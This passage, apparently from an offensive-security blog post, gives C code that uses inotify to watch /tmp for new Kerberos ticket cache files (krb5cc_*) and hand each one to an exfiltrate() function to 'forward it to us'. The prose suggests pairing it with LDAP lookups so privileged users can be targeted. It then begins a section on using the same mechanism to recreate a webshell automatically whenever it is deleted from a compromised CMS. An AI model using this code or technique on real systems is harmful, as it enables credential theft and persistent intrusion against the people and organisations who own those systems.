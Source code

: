 ```c
    }

    //Add a watcher for the creation or modification of files at /tmp folder
    if ((wd = inotify_add_watch(fd, "/tmp", IN_CREATE | IN_MODIFY)) == -1) {
        printf("Could not add a watcher!!\n");
        return -2;
    }

    //Main loop 
    while(1) {
        i = 0;
        length = read(fd, buffer, BUF_LEN);
        if (length < 0) {
            return -3;
        }

        while (i < length) {
            struct inotify_event *event = (struct inotify_event *)&buffer[i];
            if (event->len) {
                    //Check for prefix
                    if (strncmp(event->name, "krb5cc_", strlen("krb5cc_")) == 0){
                        printf("New cache file found! (%s)", event->name);
                        asprintf(&ticketloc, "/tmp/%s",event->name);
                        //Forward it to us
                        if (exfiltrate(ticketloc) != 0) {
                            printf(" - Failed!\n");
                        }
                        else {
                            printf(" - Exfiltrated!\n");
                        }
                        free(ticketloc);
                    }
                i += EVENT_SIZE + event->len;
            }
        }
    }

}
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Of course this is just an option to get notified (and to steal inmediately) when a new ccache file is created. A really great idea is to combine this with a search via LDAP to check if the file corresponds to a privileged user and then act accordingly __:)__.


## 0x01 Re-infecting CMS installations
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
A common problem related with webshells and similar persistence methods is that they can vanish in just a moment when the web application is updated (for example, to fix the vulnerability that we just exploited). We can use inotify to monitor when our webshell is deleted and then create a new one (and alert us about this action). We only need to change the mask used to filter the events:
